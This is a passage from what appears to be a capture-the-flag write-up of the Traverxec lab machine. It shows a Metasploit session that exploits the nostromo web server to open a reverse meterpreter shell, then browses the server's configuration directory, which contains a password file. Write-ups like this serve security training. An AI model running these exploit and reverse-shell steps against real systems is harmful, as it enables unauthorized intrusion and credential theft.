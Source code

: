 ```
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
                            shell has gone before


       =[ metasploit v5.0.58-dev                          ]
+ -- --=[ 1936 exploits - 1079 auxiliary - 333 post       ]
+ -- --=[ 556 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

msf5 > set RHOSTS traverxec.htb
RHOSTS => traverxec.htb
msf5 > set LPORT 80
LPORT => 80
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 10.10.15.60
LHOST => 10.10.15.60
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 1337
LPORT => 1337
msf5 exploit(multi/http/nostromo_code_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.15.60:1337 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x64/meterpreter/reverse_tcp command stager
[*] Sending stage (3021284 bytes) to 10.10.10.165
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (10.10.15.60:1337 -> 10.10.10.165:47402) at 2019-12-17 13:27:54 -0500

meterpreter > 
```

## User Flag
After some manual exploration we find some interesting content inside of the `/var/nostromo/conf` directory. There's an `.htpasswd` file, but we don't need to use that, at least not the way we're going about this. What's interesting in this directory is the configuration file, `nhttpd.conf`, which indicates the existence of another folder we need to take a look at.



```console
meterpreter > cd /var/nostromo/conf
meterpreter > ls
Listing: /var/nostromo/conf
===========================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  41    fil   2019-10-25 15:20:50 -0400  .htpasswd
100644/rw-r--r--  2928  fil   2019-10-25 14:43:20 -0400  mimes
100644/rw-r--r--  498   fil   2019-10-27 16:12:13 -0400  nhttpd.conf

meterpreter > cat nhttpd.conf
# MAIN [MANDATORY]

servername    traverxec.htb
```